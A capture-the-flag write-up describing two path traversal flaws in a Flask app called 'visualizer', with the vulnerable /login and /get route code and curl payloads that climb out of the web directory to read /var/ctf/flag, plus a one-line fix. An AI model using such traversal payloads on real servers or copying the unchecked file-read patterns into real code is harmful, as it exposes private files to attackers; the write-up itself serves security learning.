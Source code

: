 visualizer Writeup
===========

# Abstract
There were two file inclusion vulnerabilities on `/login` and `/get` pages.

I found `/get` page vulnerability first. So I got a flag from server during the CTF.

And I found `/login` page vulnerability while check visualizer code for writeups.

## File inclusion vulnerability on `/login` page
### Explanation
There are file inclusion vulnerability on `/login` page when getting github-ID using `GET` method. Server attempt to find public key and check that it's a valid public key. If public key is not valid, then server print out the content of the file.
### Source code
```python
@app.route('/login', methods=['GET', 'POST'])
def login():
    if flask.request.method == 'POST':
        # ... omitted ...
        data = file_read(keypath)
        pubkey = gpg.import_keys(data)
        if len(pubkey.fingerprints) == 0:
            return flask.Response('%s is not public key\n%s'%(keypath,data)) # file inclusion vulnerability
```

### Payload
`curl http://visualizer.teamx/login?id=../../../../../../../../../../var/ctf/flag`


## File inclusion vulnerability on `/get` page
### Explanation
It's a simple page that print out file-content without any name check. Especially there are no login check(`@login_required`) on `/get` page. So I can read the flag without valid user account.
### Source code
```python
@app.route("/get",methods=['GET'])
def static_page():
  if 'page' in flask.request.args:
    page = flask.request.args.get('page')
    path = 'static/' + page
    if os.path.exists(path) and not os.path.isdir(path):
      return file_read(path) # file inclusion vulnerability
```

### Payload
`curl http://visualizer.teamx/get?page=../../../../../../../../../../var/ctf/flag`

# Summary
Check path traversal string(`../`) when getting file name.
